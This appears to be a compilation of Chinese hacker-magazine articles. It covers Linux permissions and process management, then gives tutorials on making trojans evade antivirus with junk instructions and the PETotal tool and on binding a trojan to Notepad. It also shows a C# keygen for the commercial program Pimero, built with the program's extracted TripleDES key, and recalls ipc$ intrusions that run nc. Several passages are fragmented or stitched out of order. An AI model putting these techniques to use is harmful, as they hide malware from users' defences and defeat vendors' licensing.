首先我们将计算机的操作者抽象为安全主体，即操作系统中的用户名。然后当用户登录计算机后，根据访问控制列表 ACL 对 Files 文件进行访问。值得一提的是，在 Windows 平台上，ACL 采用的是 NFSV4 中定义的标准；虽然 Linux 正在向 NFSV4 标准过渡，但目前大部分 Linux 平台采用的仍是 IEEE POSIX 1003.1e 的 UGO 权限设置模式，因此本文将以此标准结合 Redflag Linux Desktop 7.0 奥运会专版来进行讨论。

## 一、Linux 下的用户管理

我们需要熟悉 Linux 平台上的用户管理。在 Windows 平台上每个用户都有一个 SID 标识，其中以 administrators 用户组为所有文件的所有者，因此 administrators 用户组中的用户是 Windows 平台上最大权利的拥有者。与 Windows 类似，在 Linux 平台上每个用户也都有一个 UID 标识，每个组都有一个 GID 标识，同时在 Linux 平台上 root 用户组为所有文件的所有者，因此 root 组中的用户是 Linux 平台上最大权利的拥有者。

### 1、查看用户信息

在 Windows 系统中我们可以通过 `net user` 命令来查看系统中的用户；在 Linux 系统中所有用户的信息以文本方式存储于 `/etc/passwd` 文件中，通过 `cat /etc/passwd` 命令即可查看该文件内容。如图2所示，图中标识位置为 root 用户信息：用户名为 root，x 代表密码已加密，UID 为 0，GID 为 0，home 目录为 `/root`，登录后执行 shell 为 `/bin/bash`。

### 2、查看密码散列

在 Windows 系统中，用户的密码加密散列存在于 `C:\WINDOWS\system32\config\sam` 文件中。Linux 系统将密码保存于 `/etc/shadow` 文件中，而 `/etc/passwd` 使用 x 表示密码已加密。使用 `cat /etc/shadow` 可查看这些密码散列，但该文件只有 root 权限用户可访问。通常先使用 `su` 提升为 root，再通过 `cat` 查看内容。

### 3、查看用户组与用户组密码散列

在 Windows 系统中可通过 `net localgroup` 命令查看当前用户组；在 Linux 系统中用户组也以文本方式存储，可通过 `cat /etc/group` 查看。与用户密码散列类似，用户组密码也保存在仅 root 可访问的 `/etc/gshadow` 文件中。

### 4、添加与删除用户

在早期渗透场景中，常见通过类似 `net user ...`、`net localgroup ...` 的命令在 Windows 中添加用户并提升权限。对应在 Linux 系统中，可使用 `useradd`、`passwd` 等命令添加用户并设置密码，以便获得后续访问能力。

过程是通过 useradd 和 passwd 命令来完成的。比如添加一个名为 caodan，密码为 caodan 的用户；要想删除用户，可以使用 userdel 命令，一般要加上 `-r` 参数，即把该用户相关的 home 目录也一起删除。

## 二、熟悉 Linux 下的文件及基本的权限设置

在计算机系统与用户之间，一般有一层编程语言（例如 C++）抽象的逻辑输入、输出层，这种抽象叫做流，一般分为两类：纯二进制流与 ASCII 文本流。这两种流对应两种不同文件：程序与文本文件。在 Linux 系统中文件到底是程序还是目录抑或文本，一般可以通过 `ll -a` 命令查看。

注意属性的开头，`d` 表示目录，`-` 表示普通文件。在 Linux 中访问权限常见表示如 `rw-r--r--`，即读、写、执行三类权限；`r` 为可读，`w` 为可写，`x` 为可执行，`-` 为无权限。通常也用八进制描述：`0` 无权限，`1` 可执行，`2` 可写，`4` 可读。每三位表示一组：所有者、所属组、其他用户。

如何来改变文件的所有权？Windows 系统中可对文件“所有权”进行修改；在 Linux 系统中一般使用 `chmod` 来修改文件权限。Windows 与 Linux 在“所有权/权限”概念上存在一定差异。

例如将当前目录 `.` 修改为所有人可读写（示例为 `chmod 666 .`），使用户、用户组及其他用户都获得 `rw-` 权限。

## 三、Linux 下的 ACL 设置

在对使用 Windows 系统的 Web 服务器进行安全检测时，有时会用 `cacls` 修改访问权限。Linux 下一般可用 `getfacl` 和 `setfacl` 查看与设置文件的 ACL 访问控制列表。下面进行基本测试操作。

+   1. 建立实验环境

首先通过下面命令来建立一个模拟的文件系统。

```
bash
dd if=/dev/zero of=./test count=1024
losetup /dev/loop0 ./test
mke2fs /dev/loop0
mount -o rw,acl /dev/loop0 /mnt
cd /mnt

```

具体执行情况如图 8 所示。通过 `dd` 命令建立测试文件，其中 `if` 为输入文件（input file），`of` 为输出文件（output file）的简写，示例中用于生成当前目录下的测试文件。

复制的块数为1024，losetup命令用于安装循环控制设备，即/dev/loop0，然后使用mke2fs命令挂载了一个具备ACL设置的ext3文件系统到/mnt目录下。

### 2、建立测试文件并查看ACL

执行“echo test test>test.txt”命令来建立一个test.txt文件，然后我们执行“ll -a”查看当前文件的权限设置内容，如图9所示，权限为644，“-”表示为一个普通文件，执行“getfacl test.txt”查看当前文件的ACL，如图10所示，经过对比不难发现，getfacl的输出比较清晰简洁。

### 3、建立用户对其进行修改操作

执行下面的命令来添加一个用户名为hacker，密码也为hacker的用户，并对test.txt文件进行修改操作：

```
bash
useradd hacker
passwd hacker
su hacker
echo hacker test >> test.txt

```

执行结果如图11所示，提示权限不够。

### 4、修改test.txt的ACL，使hacker用户具备修改权限

执行下面的命令：

```
bash
setfacl -m u:hacker:rw ./test.txt
getfacl ./test.txt
su hacker
echo hacker test>>test.txt
cat test.txt

```

执行结果如图12所示，setfacl中的“-m”参数为modify的简写，即修改；“u”表示用户；“rw”表示读写权限，即给当前目录下的test.txt文件增加hacker用户的写入权限。我们再以hacker权限写入数据，通过cat命令查看为已写入，如图12所示。再执行“getfacl ./test.txt”时，我们会发现有一个“mask:rw-”的内容，所谓mask操作，是一种不破坏当前ACL的基础上临时性的提高或降低权限的方法，它所影响的仅仅是其他用户和组，对于所有者并没有效果。

### 5、备份与恢复ACL

对于Windows系统的安装过程，我们一般会按照先安装系统—安装第三方软件—优化系统—权限设置—备份来进行，即往往权限设置是放在最后一个；对于Linux系统来说，一般我们很少会使用类似ghost那样的系统备份工具来对系统进行备份，而是通常情况下只对数据进行备份。ACL在Linux一般使用这种方法，备份与恢复还是使用getfacl和setfacl这两个命令，对于ACL的备份，我们往往是针对的文件目录而并不是单纯的文件，通过getfacl的“-R”参数就可以实现递归式备份单一文件的ACL，即“getfacl -R directory >directory.acl”，当需要恢复时，执行“setfacl --restore directory.acl”就可以了。

到这里相信大家对于Linux平台下的权限设置基本上就有所了解了。Linux平台的权限设置与Windows很类似，世界上很多东西看起来都是相通的，因此很多Windows平台上的使用技巧都可以用在Linux平台上。

## 结合Windows浅谈Linux进程管理

Linux出色的性能无须多言，假如我们把Linux看作是一盘棋，那么系统中所有的进程就是这盘棋中的棋子。如果不能及时掌握棋子的位置及状态，那么无论攻击还是防御都将无从谈起，因此不管你是Linux个人用户还是服务器维护人员，都必须要对进程管理相当熟悉才行，本文我就结合Windows系统来讨论一下Linux下的进程管理。

要了解进程管理，我们先来明确几个概念——程序、进程、线程。程序是存储于硬盘等外部存储器上的静态二进制信息集合，进程是内存中动态的二进制信息集合，而线程是对于CPU来说的，它是CPU可调度的基本单位。一个进程可以有多个线程，程序（进程）也有准备、出发、暂停、下班（终止）等状态。

## 一、Linux进程的创建与消亡

我们通过对比Windows来描述Linux下进程的产生与消亡。无论通过Windows的cmd还是explorer来执行程序，实际上都在调用CreateProcess()。与Windows不同，在Linux系统中，一个进程的创建首先需要调用fork()复制当前进程信息并创建子进程，然后通过exec()家族函数将ELF可执行文件载入内存。exec()并不是单一函数，而是一系列以exec开头的家族函数。

如图1所示演示了在Linux的shell中执行“ls -l”命令的过程：程序先调用fork()，返回值为pid_t结构体；返回值小于0表示失败（一般为-1），大于0表示父进程，等于0则为当前子进程。也就是说，在Linux启动后，每个运行的程序都会有一个父进程，父进程标识用ppid表示，子进程标识用pid表示。

我们通过pstree命令可以看到Linux的进程树（图2）。从图中可看出，Linux的所有进程都由init进程创建。进程执行完后会调用exit()通知父进程“我已经死亡”，父进程接收到信息后通过waitpid()（或wait()）进行回收，进程才算彻底结束。这也就是Linux中的子进程由父进程“埋葬发丧”的机制。

## 二、Linux下的“任务管理器”——top命令

在Windows系统中，每当机器过卡或者发现系统异常时，我们总会按下CTRL+ALT+DEL键打开任务管理器。Linux下的“任务管理器”是通过执行top命令打开的。运行后首先会看到诸如“01:30:16 up 3:01, 2 users”之类的信息，分别表示当前系统时间、运行时长和登录用户数量，这些信息相当于执行uptime命令。

“70 total, 1 running, 69 sleeping, 0 stopped, 0 zombie”，它指明了当前任务队列中的任务是70。在Linux中进程创建后都会放入进程队列中供CPU调度，进程队列实际上就是一个双向循环链表结构，它在Linux中被定义为task_struct的结构体，running表示正在执行的任务数，sleeping指的是睡眠中的任务数，stopped是停止的任务数，zombie指的是僵尸进程数。

另外top命令也提供了很多快捷键，比如P键可以根据CPU使用大小进行排序，T键可以根据时间排序，M键可以切换显示内存信息等，在查看非法进程的过程中这些快捷键都相当好用。另外，由于top命令会不断地更新相关的数据，因此消耗的资源也是相对比较多的，查看信息完毕后按q键即可退出top命令了。

## 三、Linux下的“tasklist”——“ps和kill命令”

在Windows系统下编写与进程相关的批处理文件时，我们通常使用tasklist和taskkill命令，在Linux系统中也提供了两个类似的命令——ps和kill。ps命令用于列出当前系统中的进程，一般来说常用的参数为-aux和-alx，a表示显示当前shell下的所有应用程序，u是指以用户名排序，x指的是显示所有的任务，包括一些内核态的程序或者说系统进程；l参数可以让显示的信息更加详细，比如显示ppid（父进程的进程标识符）。正如Windows下的进程批处理编写一样，我们需要通过find过滤才能定位到某一个具体的进程，在linux中也提供了类似的用法，一般是通过“grep 要过滤的字符串”来具体到某一个进程，如图4所示，通过执行ps -aux|grep "bash"找到包含bash字符串的所有进程。

在日常的Linux管理中，一旦发现僵尸或者非法进程我们就需要及时地杀掉它，这就需要kill命令来完成了，与Windows图形界面的WM_CLOSE关闭消息类似，kill命令也是通过向进程发送相应的消息来结束进程的。命令的使用格式非常简单：kill <消息号或消息名> <进程PID>，进程的PID我们可以通过“ps -aux”查询得到，消息号可以通过“kill -l”查询得到，如图5所示。图中列出了所有的kill命令可以使用的消息号，一般我们使用SIGKILL、SIGTERM、SIGSTOP这三个信号。

下面我结合kill命令来举一个例子，依次执行下面几条命令：

```
vim /etc/passwd &
kill -9 vim的PID
bg 1
```

执行结果如图6所示，执行vim /etc/passwd &时，命令进入后台执行，此时返回其PID为13622，任务序号为1，然后执行kill -9 13622，向该进程发送SIGKILL强制结束信号，最后bg 1是将vim命令转为前台，系统提示killed，即强制结束成功。

kill是一个相当有用的命令，比如我们发现Linux系统被非法登录，这时候只要使用**kill -9 非法登录的shell**，就可以将非法登录用户踢出系统了，这类似于Windows中的结束登录会话。

## 四、Linux下的“ipc$入侵”与“fport”——at与netstat命令

相信很多菜鸟对网络安全感兴趣都是从ipc$入侵开始的，反正我的第一台肉鸡就是通过ipc$搞到的，在进行ipc$入侵时，一般的规则性操作是time查看系统时间，然后at时间执行某一个任务，一般是执行nc命令。在Linux中也提供了一个at，这是一个比Windows的at更好用的命令，因为它无须获得当前时间，而只需要at now+ minutes、hours、days来设置时间就行了，比如我们要在3分钟后运行“vim /etc/passwd”命令，就可以执行**at now+3 minutes**，在交互窗口中输入“vim /etc/passwd”，按Ctrl+D结束输入就行了。

大家一定对Windows系统中的netstat命令比较熟悉了，它有一个不太好的地方，就是不能查看到与某个端口相关联的进程，因此不利于我们查找恶意程序，所以很多时候在Windows中我们都是使用fport程序来替代netstat，因为它可以显示出每个端口与之对应的进程。Linux中的netstat命令就具备了fport的能力，只要加上“-p”参数就可以查看与端口关联的进程pid，比如我们执行**netstat -tupl**，t参数指的是tcp，u指的是udp，l指的是监听状态的套接字，如图7所示，这里面详细列出了每个端口使用的协议、状态及与之相关联的进程。

## 五、Linux下的进程安全浅析

Linux的进程创建机制为其快速及稳定执行程序提供了条件，同时Linux的进程安全策略也为Linux进程提供了一个相对安全的环境，比如at命令，在Windows中它依赖于Task Scheduler，只要添加管理员权限成功都可以访问，如果要对该服务进行权限设置，一般也需要借助第三方工具，比如process explorer，而Linux却提供了规则性的类似于防火墙式的安全设置方法，它会在/etc/文件夹下生成at.allow和at.deny两个文件，只有在at.allow中的用户才可以执行at命令，在at.deny中的用户不可以执行at命令，如果删除了这两个文件，则任何人都不可以执行at命令，从这一点上也可以看出Linux在安全方面下的功夫。

在Windows系统中，我们知道进程间的权限都是相互继承的，比如提升explorer.exe的权限为system，则由它运行的所有程序都为system权限，Linux也一样，但是在Linux中，这样的一个小小不起眼的地方却有可能引发大的隐患。比如apache服务运行于/usr/local/httpd目录下，开机时是以root权限运行，当外部机器通过80端口访问本机时，则在本地计算机中apache父进程会建立多个nobody权限的子进程，但是所有接收到的信息都会经过root权限的apache父进程处理后交给子进程，在这个过程中，如果我们提交的是一些奇特的数据，就相当于具备了root权限，这时候就有可能访问到/usr/local甚至是整个“/”（根）目录。

这个问题的根本原因就在于apache的根目录和系统的根目录是一样的。对于这种情况，我们可以借助于chroot机制来修改apache的可见根目录，使用chroot实际上就是将进程权限限制在某个特定的目录中，这类似于Windows的subst机制。chroot机制的使用关键是建立与之配套的运行环境，比如apache的运行需要相应的库文件和配置文件，这些文件都在/etc或/usr目录下，这时候我们就需要将其相关的文件都放置到chroot目录下。

无论攻击还是防御，其实都是计算机操作在对进程进行有效的排列组合，同时进程的管理、分析、设置也是所有攻击与防御体系必须走的一环，比如对Windows文件夹作权限设置、对服务作权限设置，实际上还是对进程作权限设置，因为在计算机的世界里，只有程序才是唯一的纽带。

# 另类加花

# 创造自己的免杀神话

一款木马，如何才能防止被杀毒软件查杀呢？答案就是——免杀！自从木马诞生的那一天起，被杀与免杀的较量就从来没停止过。正所谓“道高一尺、魔高一丈”，在杀毒软件技术更新的同时，木马的免杀技术也在不断前进。

免杀的方法有五花八门：修改特征码、加壳、加花、数字签名等。一般来说，我们使用比较多的还是加壳，这种方法简单方便，免杀效果也不错。不过今天，我们要使用“花指令”来给木马制作一次免杀。

```
push 00501A32\nmov eax,dword ptr fs:[0]\npush eax\nmov dword ptr fs:[0],esp\nmov ebx,0...
```

花指令，就是一句或几句简单的汇编代码，这些垃圾代码可有可无，添加或减少都不会影响程序的正常运行。比如木马名为“hacker”，查杀时可能会被命中；加入花指令后可变成“rekcah”或“hckear”等，从而绕过基于特征字符串的检测。

对于新手来说，花指令相关汇编代码可能较难理解。不过仍可先借助工具完成添加，再通过调试器进行分析。文中示例使用 OllyDBG 对加花后的文件做分析和编辑。

添加完花指令后，我们要做的就是对添加的花指令进行一些改编。花指令的目的主要是让反汇编出错，常见会涉及跳转指令与堆栈技巧，如 `jmp`、`call`、`ret`、`jz label`、`jnz label`、`db thunkcode` 等。

- 锦上添花（添加代码）
- 偷天换日（替换代码）
- 移花接木（移动代码）

# 神秘园

锦上添花：有时候，我们会发现程序中有很多“nop”语句，这些语句在汇编中并没有实际意义，我们可以对其加以改造，比如选取两处“nop”语句，把它们换成“push eax”和“pop eax”等。

偷天换日：也就是使用相同作用的代码代替原来的指令代码，比如 jn—jmp、jne—jmp、jmp eax—retn。

移花接木：把一处或多处的指令进行移动，移动时要注意这些指令是否有并列关系，否则的话有可能会导致程序无法运行。比如可以把 push eax、pop eax 移动成 pop eax、push eax 等等。

但无论怎么改编，我们都要遵循堆栈平衡的原则，当然对于有些特殊的代码，也是可以不遵循的。在改编完成后，保存修改并运行程序测试一下，如果程序能够正常运行，那么恭喜你了；如果不能的话，就说明加花对该文件无效，或者是添加花指令时出现错误了。

有加花的方法自然也就有去除花指令的办法。我们同样需要用到 OllyDBG 这款软件，在菜单上选择“Plugins”，在第 5 个选项上可以看到“花指令去除器”，打开后就可以使用这个去除器来去除一些常见的花指令。

1. 备份文件，因为有些文件在加花后可能会出错、无法运行，所以提前备份一下就很重要了。
2. 加花要适时，要根据当前的文件来进行，不能什么文件都加花，因为有些文件在加花后反而会无效。
3. 改写汇编代码时要注意不能出错，而且在替换时，被替换的代码要和替换的代码的含义必须一致。
4. 免杀要采用多种方法，每种免杀都有自己的缺陷，因此结合多种免杀方法效果才会更好。
5. 免杀不是万能的，因此也不要对免杀太过于迷信。

> （文章中涉及到的“花蝴蝶”、“怒剑狂花”、OllyDBG，已经收录在了光盘中）

# 脱壳之附加数据的处理

对于附加数据（overlay），相信那些经常接触壳的小菜都不会感到陌生。当我们查壳的时候，有时会在查出的壳的名字后面跟着一个“[Overlay]”，这就表示带有附加数据。在这种情况下，我们按照平时使用的方法脱掉壳后，有的程序可以正常运行，有的却又不能正常运行，这是怎么回事呢？

首先我们来了解一下附加数据。我们平时使用的一些软件，有一些需要处理数据流文件，一个 mp3 文件（数据文件）没有播放器是不能播放的，一个 txt 文件没有 notepad 也是打不开的，而 overlay 真正的意思就是取消打开功能，将这些需要读取的数据存放到 pe 文件的后面，让程序能够自动的执行打开功能。

我们来做一个试验，使用 lordPE 的 pe 编辑器打开一个 test.exe 文件，然后查看它的区段，把它最后一个区段的文件偏移大小 RS 修改成 00008200。接着再使用 PEID 打开查看，显示为“VC8 -> Microsoft Corporation [Overlay]*”，带有附加数据了。

PE 文件中排列着的数据在运行的时候将会被映射到内存空间，假设一个 PE 文件只存在两个区段，第一个区段是“.text ...”，第二个区段是“.data ...”。

“VA=401000 VS=1000 RA=200 RS=100”，如果我们打开 winhex 并来到文件偏移 200 处，其情况是这样的：RA=1FF 处的数据是 15，RA=200 处的数据是 16。那么当该 PE 文件装载入内存的时候，文件偏移中的 100 开始的 100 个字节将会被映射到内存的 400000 开始的 100 个字节中，后面的 F00 个字节将会使用 0 填充；而文件偏移中的 200 开始的 100 个字节将会被映射到内存的 401000 开始的 100 个字节中，后面的 F00 个字节将会使用 0 填充，这样在磁盘上相邻的两个数据 15 和 16，在内存中一个在 4000FF 处，一个在 401000 处，分开很远。

入门秘籍。第一步当然是检查一下壳，使用 PEID 打开程序，如图 3 所示，提示程序加壳是 ASPack v2.12 的壳，后面的“[Overlay]”……

区段一般是会被映射到内存中的，如果我们将 .data 段去掉，那么该 PE 文件就将会留下从 RA=200 到 RA=300，大小为 100 的数据而不会被映射到内存中去，这部分数据就将被认为是附加数据。

这只是我随便举的一个例子，在实际的应用中，由于文件的对齐机制，在磁盘上每个段的结束都是填充了大量的 0。通过上面介绍的这些基础知识，我们就可以得知，附加数据只是数据，不会被映射到内存中去，它将会被程序以打开自己的方式来读取数据，所以 dump 下来的时候是没有附加数据的，需要我们手工把这一部分的数据粘贴到 dump 下来的数据的后面才行。结合实验也可以得知，只要不是区段里面包括的文件的大小，也都将被视为附加数据，并且附加数据紧跟在所有区段的最后，这也就是说，附加数据的开始位置，就是最后一个区段的 RA+RS。

理论知识介绍完了，我们来实际的操作一下，演示的程序就是今年第二期杂志光盘中收录的一个 exe 电子书——扑克牌……

“…lay]”就表示存在附加数据。接下来我们使用OD载入程序，使用ESP定律法脱掉这个壳。首先按F8单步步过，寄存器窗口ESP处数据变成红色时就在其上面点击右键，选择“数据窗口中跟随”，如图4，然后来到数据窗口选中第一行反汇编代码，点击右键，依次选择“断点”－“硬件访问”－“WORD”，如图5，下完断点后我们按F9运行程序，然后继续按F8单步步过，不久就会来到程序的OEP处了，如图6所示，接下来我们就可以dump了，点击右键选择“用OllyDump脱壳调试进程”，在弹出的窗口中直接点击脱壳，保存为dump.exe，最后我们还要使用工具来修复一下输入表。

接下来运行处理后的程序，出现了如图7所示的错误提示，当程序的附加数据损坏或是没有修复的时候都会出现这个错误提示，因此我们还需要进行附加数据的修复工作。步骤就是先找到附加数据开始的位置，然后将附加数据复制到脱壳后的程序中去。再次使用peid打开未脱壳的文件，点击“EP区段”后面的箭头来打开节查看器，如图8，记录下最后一个区段.adata的文件偏移和大小，并将其相加，得到的值0004A200就是附加数据的开始位置，然后我们使用C32ASM以十六进制模式打开未脱壳的文件，按Ctrl+G跳到0004A200处，从此处开始便是程序的附加数据了，如图9。

然后在结尾处按住shift同时点击鼠标左键来将其全都选中，接下来点击右键选择“拷贝”－“拷贝”。使用C32ASM以十六进制方式打开脱壳后的文件，直接拉到最下面，将附加数据复制到程序的最后并保存文件就行了，如图10，最后我们运行一下修改后的程序，发现可以正常执行了。

以上介绍的复制粘贴附加数据的方法也并不是通用的，当我们碰到不是使用FILE_END为指针的程序时，这种方法就行不通了，但好在大多数的程序还是使用FILE_END的。

（文章中涉及到的LordPE、PEID、OD、C32ASM、test.exe、扑克麻将入门秘籍.exe，已经收录在了光盘中）

我们要将这些附加数据全选中，因为附加数据是很长的一段，因此我们可以直接在开始位置按住shift同时点击鼠标左键，

# DotNet逆向初体验

朋友给我发过来一个软件（Pimero），让我帮他看看能不能给破解掉，程序安装完后我顺手使用PEID检查了一下，显示为“Microsoft Visual C# / Basic .NET”，这个结果立马让我头大了许多，因为之前从来没有做过DotNet程序的逆向分析，所以也就无从下手了，既不知道使用什么工具来进行分析，也不知道使用什么工具来进行修改。幸好有搜索引擎和各大逆向论坛的帮助，才让…我在阅读了几篇相关文章后有了一点眉目，并最终顺利地完成了对这个程序的逆向分析，下面我就将整个分析过程整理出来和大家分享，希望对初学者们能够有所帮助。

对于逆向分析 DotNet 程序，我们需要用到一款名叫“Reflector”的工具，它可是 DotNet 逆向分析不可或缺的工具之一，具有强大的反编译功能，支持查找和分析，同时还提供了插件机制，我们可以获得众多的插件来增强它的功能，最重要的是它能将 IL 转换成高级语言以提高代码的可读性。


图1


图2

我们运行“Reflector”，并载入目标程序集，如图1所示，这说明目标程序已经被“Reflector”识别出来了，如果识别不出来程序集，它就会在程序集的名称前面显示一个红色的感叹号。

依次选择打开“Pimero”→“Pimero.exe”→“{}Pimero”→“Program”，观察左边展开的节点下面的子项目，就会看到如图2所示的“EnterRegistrationCode():boolean”这一子项，双击打开后就可以在右边看到如下的代码：

```
public static bool EnterRegistrationCode()
{
    EnterRegCodeDialog dialog = new EnterRegCodeDialog();
    if (dialog.ShowDialog() != DialogResult.OK)
        return false;
    License license = new License(dialog.EnteredCode);
    if (!license.isValidFor(Info.Instance.GetProductByDef(ProductDefs.Pimero)))
    {
        XtraMessageBox.Show(Strings.ERROR_INVALID_REGISTRATION, "Pimero", MessageBoxButtons.OK, MessageBoxIcon.Hand);
        return false;
    }
    Info.Instance.InstallLicense(dialog.EnteredCode);
    Info.Instance.ReloadLicenses();
    return true;
}
```

```
if (!license.isValidFor(Info.Instance.GetProductByDef(ProductDefs.Pimero)))
{
    XtraMessageBox.Show(Strings.ERROR_INVALID_REGISTRATION, "Pimero", MessageBoxButtons.OK, MessageBoxIcon.Hand);
    return false;
}
Info.Instance.InstallLicense(dialog.EnteredCode);
Info.Instance.ReloadLicenses();
return true;
```

分析上面的这段代码，可以看到“License license = new License(dialog.EnteredCode);”这句，点击“new License(dialog.EnteredCode);”处的“License”，就会打开它的实现代码，我们从中找到了如下的关键代码：

```
string str = EncryptionUtils.DecodeRegistrationKey(cryptedKey);
string[] strArray = str.Split(new string[] { "\x0060" }, 6, StringSplitOptions.None);
if (strArray.Length == 6)
{
    this.UserCount = int.Parse(strArray[4]);
    this.ProductVariantDef = Product.GetProductVariantDef(strArray[1]);
    this.thisProductDef = Product.GetProductDef(this.ProductVariantDef);
    if ((this.ProductVariantDef == ProductVariantDefs.ProfessionalUE) || (this.ProductVariantDef == ProductVariantDefs.StandardUE))
        this.LicenseType = LicenseTypes.FlatRate;
    else
        this.LicenseType = LicenseTypes.UserLicense;
    this.PurchaseDate = DateTime.Parse(strArray[0], new CultureInfo("de-DE"));
    this.UpdateableUntil = DateTime.Parse(strArray[5], new CultureInfo("de-DE"));
    this.RegistrationName = strArray[3];
    this.PurchaseId = strArray[2];
}
```

分析这段代码，我们就会看到程序调用了 EncryptionUtils.DecodeRegistrationKey()函数来解密被加密过的注册码，然后使用String类的Split方法分隔解密后的字符串并保存在数组中，通过继续分析这段代码，可以发现如下所示的处理代码，以下代码将分割后的解密串分别赋值给了不同的变量。

```
this.PurchaseDate = DateTime.Parse(strArray[0], new CultureInfo("de-DE"));
this.ProductVariantDef = Product.GetProductVariantDef(strArray[1]);
this.PurchaseId = strArray[2];
this.RegistrationName = strArray[3];
this.UserCount = int.Parse(strArray[4]);
this.UpdateableUntil = DateTime.Parse(strArray[5], new CultureInfo("de-DE"));
```

通过变量的语义我们可以大致猜测出这些变量的含义。

- strArray[0] //购买时间
- strArray[1] //产品版本
- strArray[2] //购买ID
- strArray[3] //注册名
- strArray[4] //用户数
- strArray[5] //截止日期“UpdateableUntil”（文中提到多出的“te”可能为笔误）

由此我们可以得出被解密后的字符串的具体含义都代表什么了，接下来我们继续看上边提到的EncryptionUtils.DecodeRegistrationKey()这句代码，点击打开“EncryptionUtils”类，就会看到如下的代码：

```
public class EncryptionUtils
{
    //Methods
    public EncryptionUtils();
    public static string DecodeRegistrationKey(string cryptedBased64Key);
    public static string DecryptTripleDES(string cPhrase, string cPassword);
    public static string EncryptAdminPassword(string plainAdminPassword, bool withDots);
    public static string EncryptTripleDES(string cPhrase, string cPassword);
}
```

通过分析函数名以及代码的实现过程，可以得到注册码解密的函数的实现过程，具体代码如下所示：

```
public static string DecodeRegistrationKey(string cryptedBased64Key)
{
    return DecryptTripleDES(cryptedBased64Key, "95487f9HIUTZW98--P").TrimEnd(new char[1]);
}
```

根据上面的代码我们不难推导出其加密注册码的实现过程，代码如下所示：

```
public static string EncodeRegistrationKey(string cryptedBased64Key)
{
    return EncryptTripleDES(cryptedBased64Key, "95487f9HIUTZW98--P").TrimEnd(new char[1]);
}
```

现在返回到“License”函数的实现代码上，我们可以看到“this.ProductVariantDef = Product.GetProductVariantDef(strArray[1]);”这句代码，代码当中包含了一个“Product”类，通过查看“Product”类的实现代码，我们可以看到下面的代码段：

```
public Product()
{
    productIds.Clear();
    productIds.Add("100000000", ProductVariantDefs.PimeroFree);
    productIds.Add("300120532", ProductVariantDefs.Standard);
    productIds.Add("300119932", ProductVariantDefs.Professional);
    productIds.Add("300120917", ProductVariantDefs.StandardUL);
    productIds.Add("300120915", ProductVariantDefs.ProfessionalUL);
}
```

在此段代码中定义了对各个版本所定义的不同的值数据，对应着前面分析的“strArray[1] //产品版本”这一项的信息。至此所有代码信息就基本收集完成，可以开始实现注册机了（C#代码），关键代码如下所示。记得要把“EncryptionUtils”类的实现代码（其中要包含自己实现的加密函数的代码，程序中会用到，并且要添加相应的头文件）贴在此代码之前，不然我们不会编译通过的。

```
private void button1_Click(object sender, EventArgs e)
{
    CultureInfo info = new CultureInfo("de-DE");
    Thread.CurrentThread.CurrentCulture = info;
    // 提供有关特定区域性的信息（比如区域性的名称、书写系统和使用的日历）
    string[] strArray = new string[] {
        DateTime.Now.ToString(),
        "300120915",
        "逍遥",
        this.textBox1.Text,
        "700",
        DateTime.Now.AddMonths(0x10).ToString()
    };

    this.textBox2.Text = EncryptionUtils
        .EncodeRegistrationKey(string.Join("\x00", strArray));
}
```

这里我把一些字段都设置成固定的值了，当然也可以通过“textBox”控件获取这些值，然后再进行计算，这里就不再进行代码的实现了。读者朋友们可以自己来实现这部分的代码，包括添加一个 ComboBox 来选择不同的版本等。

本文到这里就算是结束了，在这次分析中我遇到了很多不懂的地方，但是通过 Google 或百度的查询都一一解决了，作为一个初学者应该多利用搜索引擎来查找解决遇到的问题，并做好相应的笔记记录，这对水平的提高是很有帮助的，希望通过本文的学习，能够让初学者们了解一些关于 .Net 程序的分析过程以及工具的使用。

> （文章中涉及到的 Reflector，已经收录在了光盘中）

# 免杀捆绑轻松搞定

天涯文章

随着人们安全意识和软件防护能力的提高，通过网页木马或优盘来传播病毒的方式已经逐渐的被淘汰了，随之而来的传统的文件捆绑方式却再次赢得了黑客的喜爱，但是无论我们采取何种方法进行传播，对木马进行免杀都是其中不可或缺的一个环节。今天就给大家推荐一款名为 PETotal 的小工具，它可以轻松的完成免杀和捆绑的所有操作。

## 一、木马的免杀

首先我们从网上下载最新版本的 PETotal 软件，解压后运行文件夹中的 PETotal 文件，接着点击“文件”输入框中的选择按钮，这样就可以在弹出的浏览窗口中选择想要进行免杀操作的木马程序了。添加完毕后我们可以看到 PETotal 自动分析出了木马程序的相关信息，包括文件头、数字签名、导入表金额导出表等，如图1。与此同时，窗口中的“提取资源”和“加花免杀”等选项也都可以使用了。

由于我们的就是打算进行木马免杀，所以这里就点击“加花免杀”按钮，在弹出的窗口中就可以进行相应的操作了。PETotal 为用户提供了三种不同添加花指令的方式，分别为“添加对话框”、“添加花指令”和“添加空白段”。我们首先在“Section名称”和“Section大小”选项中随意的设置一个相应的 Section 名称和大小，如图2，然后在“消息内容”输入框中随意输入一段自己喜欢的文字信息内容，接下来点击窗口中的“添…”。


图1

加对话框”命令，这样PETotal很快就会提示修改成功。当我们运行木马程序后，首先会弹出一个对话框窗口，而窗口内容正好就是“消息内容”中设置的信息。


图2


图3

如果我们选择的是“添加花指令”这种方式，就需要在“花指令”输入框中输入需要的花指令，如果不进行任何花指令的输入操作，那么PETotal将会自动添加默认的花指令。这时我们只需要点击一下“添加花指令”按钮，就可以在“结果”中看到添加成功的提示，同时还会提示我们木马程序新的人口点是00007000，这时我们再使用PEID进行检测，就会发现提示为Nothing found，如图3。如果大家有比较好的动手能力，那么也可以点击“添加空白段”按钮，成功之后在“修改入口点”点击“修改”按钮即可。最后记住新的和老的人口点地址，然后使用诸如OllyICE等第三方工具进行代码的修改即可。

## 二、木马的捆绑

完成了木马程序的免杀，那么接下来就是如何进行文件捆绑了，首先返回到PETotal软件的主界面，点击窗口中的“文件捆绑”，在“选择绑定目标文件”选项后面点击选择按钮，在弹出的浏览窗口中选择一个可以伪装木马的文件，我选择的是系统中最常见的记事本程序。接下来在“选择想要隐藏的文件（目前只支持隐藏一个文件）”列表中添加想要进行捆绑隐藏的程序文件，也就是刚才免杀成功的木马程序，如图4。由于PETotal软件没有设置相应的添加命令，所以直接通过鼠标拖动到窗口列表里面就可以了。

